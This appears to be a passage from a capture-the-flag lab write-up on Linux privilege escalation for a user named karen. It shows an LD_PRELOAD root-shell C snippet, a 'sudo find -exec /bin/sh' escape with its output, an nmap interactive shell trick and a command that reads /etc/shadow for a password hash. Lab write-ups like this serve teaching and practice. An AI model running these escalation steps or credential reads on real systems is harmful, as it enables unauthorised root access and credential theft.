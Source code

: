 Alright, so we now know that we are allowed to run `find`, `less`, and `nano` with sudo!

Sometimes we can abuse the functionality of `LD_PRELOAD` which allows program to use/load shared libraries. Here is a code snippet which may allow us to get this done:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Check out [this blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) to read further about LD\_PRELOAD abuse.  
   
However, this is not a technique that we can used since `env_keep+=LD_PRELOAD` was not listed in the `sudo -l` output above...

Let's try using [GTFOBins](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/), a great resource that provides us ways to abuse programs that the current user may have access to that will then allow us to break out of the restricted shell and escalate our privilege.  
  Let's try the given command: `sudo find . -exec /bin/sh \; -quit` :

```
karen@ip-10-10-58-234:/tmp/ldpreload$ whoami
karen
karen@ip-10-10-58-234:/tmp/ldpreload$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
karen@ip-10-10-58-234:/tmp/ldpreload$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# id     
uid=0(root) gid=0(root) groups=0(root)
```

Awesome! We are root! After looking around, I found the flag in `/home/ubuntu/flag2.txt`.

**Q & A**:  
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

We can do this by running `sudo nmap --interactive` and then spawning a shell using '!sh'

What is the hash of frank's password?

```
# cat /etc/shadow | grep -i frank
frank:$6$2.s
```

## Let's be more curious...
